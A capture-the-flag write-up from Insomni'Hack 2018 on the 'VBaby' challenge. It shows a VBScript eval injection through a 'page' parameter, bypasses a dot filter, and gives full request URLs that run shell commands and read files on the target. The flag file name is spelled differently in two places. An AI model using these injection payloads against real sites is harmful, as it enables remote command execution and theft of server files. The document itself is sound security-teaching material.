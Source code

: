 ```yaml
---
title: Insomni'Hack 2018 - VBaby
layout: writeup
date: 2018-03-25 21:00:00 +0100
authors: qlemaire
ctf_url: https://insomnihack.ch/
---
```

Solves: 22 / Points: 137

## Challenge description
> The admin of this site thinks he's a good dev. Just show him he's not by retrieving the flag on his server!

We start with a URL: http://vbaby.insomni.hack

## Challenge resolution
The website has a single input, the `page` GET parameter. After playing and manually fuzzing this input, the server returns a VBscript compilation error.

After some research, we find out that the server is performing an `eval` call on the provided input. However, the dot (.) character is filtered.

We can use two different technics to bypass the dot filter:
1. using `Chr(46)` and concatenation character `&`.
2. using `Eval(Request("cmd"))` and putting the payload within `cmd` parameter. Indeed, only the `page` parameter content is filtered.

In order to execute code in VBS, we can leverage `WScript.shell` object. To read the output of the command (and read file content), we use `scripting.FileSystemObject`.

First, we enumerate files and folders within `C:\` by running `cmd /c dir C:\>C:\temp\dir.txt`:
```shell
http://vbaby.insomni.hack/Default.asp?page=%26Eval(Request("cmd"))&cmd=CreateObject("wscript.shell").Run("cmd+/c+dir+C:\>C:\temp\dir.txt")
```
Then, we read the content of `C:\temp\dir.txt` with:
```shell
http://vbaby.insomni.hack/Default.asp?page=%26Eval(Request("cmd"))&cmd=CreateObject("scripting.FileSystemObject").OpenTextFile("C:\temp\dir.txt").ReadAll
```
![Reading C folder](/assets/reading-c-folder.png)

And we find out that the flag is stored within `C:\this_file_contains_the_flags_guys.txt`.

This final request allows us to grab the flag:
```shell
http://vbaby.insomni.hack/Default.asp?page=%26Eval(Request("cmd"))&cmd=CreateObject("scripting.FileSystemObject").OpenTextFile("C:\this_file_contains_the_flag_guys.txt").ReadAll
```
![Reading flag](/assets/reading-flag.png)
